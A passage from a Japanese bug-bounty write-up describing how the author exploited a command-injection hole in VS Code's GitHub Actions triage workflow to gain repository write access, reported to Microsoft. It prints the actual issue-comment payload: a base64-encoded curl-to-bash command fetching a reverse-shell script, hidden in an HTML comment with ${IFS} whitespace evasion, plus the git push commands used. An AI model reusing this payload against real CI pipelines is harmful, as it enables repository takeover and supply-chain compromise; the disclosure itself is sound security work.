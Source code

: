 また、このタスクが実行されるのが14時20分(UTC)であり、JSTに直すと23時20分であるため、とても眠い中作業をすることになる可能性があった。  
そのため、眠気による事故が起きないよう予め脆弱性を突いた後の動きをある程度決めてから行うことにした。（実際めっちゃ眠かった)  

## 影響の特定
予め動きを決めておくためには、この脆弱性を突くことにより発生し得る影響を特定しなければならない。  
幸いにも、CI内で使用されているスクリプト郡は全てGitHub上でホストされているため、実際に脆弱性を突く前にある程度正確な影響を把握することができた。  

まず大前提として、GitHub Actionsは`pull_request`イベント以外では`secrets.GITHUB_TOKEN`にリポジトリに対する書き込み権限を持ったGitHub Access Tokenをセットする[^13]。  
次に、[`actions/checkout`](https://github.com/actions/checkout)はデフォルトでディスク上に`secrets.GITHUB_TOKEN`を残す[^14]。  
最後に、[`actions/checkout`](https://github.com/actions/checkout)を実行した後のステップではディスク上に`secrets.GITHUB_TOKEN`が残っている。  
これにより、[`actions/checkout`](https://github.com/actions/checkout)を実行した後のステップで任意のコードを実行できた場合、発火元のイベントが`pull_request`でなければGitHub Actionsを実行しているリポジトリに対して書き込み権限を得ることが出来る。  
[^13]: https://docs.github.com/en/free-pro-team@latest/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token
[^14]: https://github.com/actions/checkout/blob/61b9e3751b92087fd0b06925ba6dd6314e06f089/action.yml#L48-L50

## 計画
ここまでの考えに至った後、実際に作業状態になったのが大体18時頃だったため、ご飯を食べてお風呂に入る時間を除くと約4時間ほどで計画を練る必要があった。  
作業を行う準備を終えた後、まず初めに、Issueのコメントで使用するPayloadを考えた。  
GitHubのMarkdownのパース仕様上、コメントアウトの中では`--`が使えず、また正規表現によりホワイトスペースが使用できないため、最終的なPayloadは以下のようになった。(冗長な所があると思うが、時間がなかったので許してほしい)  
```markdown
Does the next version fix this issue? <!-- \closedWith `eval${IFS}$(echo${IFS}'Y3VybCAiaHR0cHM6Ly9yeTB0YWsuZ2l0aHViLmlvL3BheWxvYWRzL2Q1MGNmMWRmYjJlNzQ5Y2RhYTQ2ZjBiOGQ1ZGEzMzFkLnNoIiB8IGJhc2g='|base64${IFS}-d)` -->
```
このPayloadでは、`curl https://ry0tak.github.io/payloads/d50cf1dfb2e749cdaa46f0b8d5da331d.sh | bash`をBase64エンコードした物をデコードし、それをコマンドとして実行している。  
現在は削除されているが、このリンク先のスクリプトはリバースシェルを張るものだったため、このコマンドが実行された時点で任意の操作をGitHub Actions上で行えるようになっていた。  

次に、リバースシェルを張った後に実行するコマンドを考えた。  
[`actions/checkout`](https://github.com/actions/checkout)は、ローカルのGitリポジトリに対して適切に認証を行うための設定を自動で行う。  
そのため、そのリポジトリを利用して無害なファイルをプッシュするのが最も簡単で良いという結論に至り、以下のようなコマンドを実行することにした。  
```shell
cd repo

git config --global user.name "Ry0taK"
git config --global user.email "49341894+Ry0taK@users.noreply.github.com"

echo -e "This is a PoC for my MSRC report. (No malicious intent here! This is not a phishing!)\nIt would be appreciated if you don't delete the commit history until the MSRC team reviewed my report. (This is 'Reliable & minimized proof-of-concept' defined here: https://www.microsoft.com/en-us/msrc/bounty-example-report-submission)\nIf you are a maintainer, please send me a message at Twitter (@ryotkak) with a proof of maintainer for quick fix." > ryotak.txt
git add ryotak.txt
git commit -m "Add MSRC PoC"
git push
```
最後に、脆弱性を突いた後すぐにMicrosoftへ報告できるように、予め脆弱性が突けたと仮定したレポートを作成し、コピペすればレポートが送信できる状態にしておいた。  

## 実行
23時20分(JST)に処理が走るため、23時15分ごろにコメントを追加した。[^15]  
その後、23時41分になってワークフローが実行され[^16]、リバースシェルが張られた。  
しかしながら、上記の手順でコマンドを実行した際に、`master`ブランチにブランチ保護がかかっているというエラーが出てしまった。  
そのため、慌てて以下のコマンドを実行し`ryotak`ブランチを新規に作成、プッシュした: https://github.com/microsoft/vscode/commit/2dadb25aeb01922fcc321ebba95bd0a95d12ec0a
```shell
git checkout -b ryotak
git push -u origin ryotak
```

[^1]: https://github.com/microsoft/vscode-github-triage-actions/blob/cd7ec725801fe3107cc33cf9a1446f36441cee8b/api/octokit.ts#L161
[^2]: https://github.com/microsoft/vscode-github-triage-actions/blob/cd7ec725801fe3107cc33cf9a1446f36441cee8b/api/testbed.ts#L68-L70
[^3]: https://github.com/microsoft/vscode-github-triage-actions/blob/db8d13b11082eb0d14a2b4fb5bc19d30f2531b4d/api/octokit.ts#L158  
[^4]: https://github.com/microsoft/vscode-github-triage-actions/blob/cd7ec725801fe3107cc33cf9a1446f36441cee8b/release-pipeline/ReleasePipeline.ts#L49-L54  
[^5]: https://github.com/microsoft/vscode-github-triage-actions/blob/0c3e4907d6516778ea95d7bb657b8eb5c44ac49d/author-verified/AuthorVerified.ts#L20  
[^6]: https://github.com/microsoft/vscode-github-triage-actions/blob/cd7ec725801fe3107cc33cf9a1446f36441cee8b/author-verified/AuthorVerified.ts#L71-L84
[^7]: https://github.com/microsoft/vscode-github-triage-actions/blob/cd7ec725801fe3107cc33cf9a1446f36441cee8b/api/octokit.ts#L402-L411
[^8]: https://github.com/microsoft/vscode-github-triage-actions/blob/cd7ec725801fe3107cc33cf9a1446f36441cee8b/api/octokit.ts#L374
[^9]: https://github.com/microsoft/vscode/blob/c7fa31fc926a006865462fa9bba5760364434bcc/.github/commands.json#L143-L154
[^10]: https://github.com/microsoft/vscode/blob/c7fa31fc926a006865462fa9bba5760364434bcc/.github/workflows/release-pipeline-labeler.yml  
[^11]: https://github.com/microsoft/vscode/blob/c7fa31fc926a006865462fa9bba5760364434bcc/.github/workflows/author-verified.yml
[^12]: https://github.com/microsoft/vscode/issues/113374
[^15]: https://github.com/microsoft/vscode/issues/113374#issuecomment-752092722  
[^16]: https://github.com/microsoft/vscode/actions/runs/450927894  